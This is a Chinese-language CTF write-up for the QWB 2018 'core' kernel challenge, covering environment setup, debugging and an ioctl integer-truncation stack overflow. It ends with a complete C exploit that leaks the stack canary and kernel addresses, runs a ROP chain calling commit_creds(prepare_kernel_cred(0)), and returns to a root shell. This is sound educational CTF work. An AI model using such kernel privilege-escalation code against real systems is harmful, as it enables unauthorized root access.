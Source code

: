 ```yaml
---
title: qwb2018_core
date: 2022-02-08 16:14:32
permalink: /pages/3387f7/
categories:
  - ctf_wp
  - qwb
tags:
  - 
---
```

# qwb 2018 core

[[toc]]

年轻人的第一个内核题目。

## 环境搭建

### 基础

解包: 

```shell
# /bin/sh

mv core.cpio core/core.cpio.gz
cd core
gunzip core.cpio.gz
cpio -idm < core.cpio
rm core.cpio
```

重打包:

```shell
# /bin/sh
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > core.cpio

mv core.cpio ../core.cpio
```

注意修改启动脚本，内存给的大一点才能启动

```shell
qemu-system-x86_64 \
-m 128M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \

```

### 修改init脚本

由于默认是chal权限，内核地址信息等看不到，所以还要修改脚本进入root进行调试。

修改这两个位置，第一个是取消定时关机，第二个是设置默认权限为root。

![](https://s2.loli.net/2022/02/08/daxhK4AjbNMWf9E.png)

重新打包以后才生效。

### 调试

启动脚本里已经有了`-s`选项。于是可以直接使用gdb去连上去。

```
target remote :1234
```

在内核中我们使用 `lsmod`可以查看到模块加载地址，于是可以直接下断点， 进行调试。也可以使用符号， 通过以下指令载入符号即可。

```
add-symbol-file module_path base_address
```

因为基本是在驱动模块的漏洞利用，这样也差不多了。



## 漏洞

从文件中拖出来 `core.ko`文件，逆向， 可以看到通过ioctl如何操作。

![](https://s2.loli.net/2022/02/08/hWPbtKDkcTXufyz.png)

### 整数截断-栈溢出

这个位置存在一个整数截断导致的栈溢出。

![](https://s2.loli.net/2022/02/08/rcke7fmy9pnMzQK.png)

而name这个数据在这个位置， 我们可以通过write直接写入。

![image.png](https://s2.loli.net/2022/02/08/Faz5NUhtLpJuS9Z.png)

### 数据泄漏

这里可以向用户态写入数据，

![image.png](https://s2.loli.net/2022/02/08/JvpqXcYfkwloL1m.png)

通过ioctl可以直接修改这个off， 

![image.png](https://s2.loli.net/2022/02/08/zebUdc3mw86CtGL.png)

## 利用

利用也比较简单，

![image.png](https://s2.loli.net/2022/02/08/oPNI4YdaAguL9Jp.png)

程序内有canary， 运行有kaslr， 于是我们要先泄漏canary、内核地址、驱动地址。

```c
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>

int fd;
typedef unsigned long long  uint64;

uint64 user_cs, user_ss, user_rsp, eflags;
void save_stats(){
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %2\n"
        "pushfq\n"
        "popq %3\n"
        :"=r" (user_cs) , "=r"(user_ss), "=r"(user_rsp), "=r"(eflags)
        : 
        :"memory"
        );
}



void core_read(char * buf){
    ioctl(fd, 0x6677889B, buf);
}

void setoff(int off){
    ioctl(fd, 0x6677889C, off);
}
void copy_func(uint64 size){
    ioctl(fd, 0x6677889A, size);
}

void get_shell(){
    system("/bin/sh");
}


#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL ;
void (*commit_creds)(void*) KERNCALL ;
void get_root(){
      commit_creds(prepare_kernel_cred(0));
}

int main(){
    save_stats();
    fd = open("/proc/core", O_RDWR);
    if (fd == -1){
        printf("open file error!\n");
        exit(-1);
    }else {
        printf("open file success!\n");
    }

    uint64 buf[0x40 / 8];
    memset(buf, 0, 0x40);
    setoff(0x40);
    core_read(buf);
    // off=0x40 -> canary
    // off=0x50 -> core_base
    uint64 canary = buf[0];
    uint64 core_base = buf[2] - 0x19b;
    uint64 vm_base = buf[4] - 0x1dd6d1;
    printf("[*] cancry: %p\n", canary);
    printf("[*] core_base: %p\n", core_base);
    printf("[*] vm_base: %p\n", vm_base);

    uint64 swapgs = core_base + 0x00000000000000D6;
    uint64 iretq  = vm_base + 0x50ac2;

    commit_creds = vm_base + 0x9c8e0;
    prepare_kernel_cred = vm_base + 0x9cce0;

    uint64 pop_rid = vm_base + 0xb2f;
    uint64 pop_rcx = vm_base + 0x21e53;
    uint64 mov_rdi_rax_jmp_rcx = vm_base + 0x1ae978;


    uint64 rop[0x100/8];
    memset(rop, 0, 0x40);
    int i = 8;
    rop[i++] = canary;
    rop[i++] = 0;
    // to root

// rop
//    rop[i++] = pop_rid;
//    rop[i++] = 0;
//    rop[i++] = prepare_kernel_cred;
//    rop[i++] = pop_rbp;
//    rop[i++] = commit_creds;
//    rop[i++] = mov_rdi_rax_jmp_rcx;
    rop[i++] = get_root;

    // reture to user
    rop[i++] = swapgs;
    rop[i++] = 0;
    rop[i++] = iretq;
    rop[i++] = (uint64)get_shell;
    rop[i++] = user_cs;
    rop[i++] = eflags;
    rop[i++] = user_rsp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100 );
    copy_func(0x100 | 0xFFFFFFFFFFFF0000);
}
```


